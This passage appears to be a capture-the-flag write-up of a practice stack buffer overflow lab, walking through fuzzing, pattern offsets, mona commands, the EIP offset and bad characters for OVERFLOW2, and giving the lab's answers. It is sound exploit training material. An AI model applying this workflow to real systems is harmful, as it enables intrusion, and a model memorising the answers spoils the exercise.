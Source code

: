   ```!mona compare -f C:\mona\oscp\bytearray.bin -a 01ABFA30```
2. In byte order and including the null byte \x00, what were the badchars for OVERFLOW1? - \x00\x07\x2e\xa0
```

## OVERFLOW2

```shell
vim fuzzer.py

python3 fuzzer.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1100

vim exploit.py

#restart oscp.exe in Immunity Debugger and run
python3 exploit.py

#generate badchars and run exploit again
```

* We have to follow the same steps as OVERFLOW1:

  ```!mona config -set workingfolder c:\mona\%p```

* For OVERFLOW2, fuzzing crashes at 700 bytes; after running exploit:

  ```!mona findmsp -distance 1100```

* This gives EIP offset 634; we accordingly update exploit.py variables offset and retn.

* After running the exploit, and confirming the EIP register is overwritten, we can begin finding badchars.

* Generating bytearray using mona:

  ```!mona bytearray -b "\x00"```

* Using the bytearray Python script, we can execute and copy output to the payload variable of exploit script.

* After running the exploit again, we can note the ESP address and use it in the mona command:

  ```!mona compare -f C:\mona\oscp\bytearray.bin -a 0192FA30```

* The memory comparison gives us the badchars - 00 23 24 3c 3d 83 84 ba bb

* Considering that badchars can modify the immediate next byte, the badchars are - 00 23 3c 83 ba

```markdown
1. What is the EIP offset for OVERFLOW2? - 634

2. In byte order and including the null byte \x00, what were the badchars for OVERFLOW2? - \x00\x23\x3c\x83\xba
```
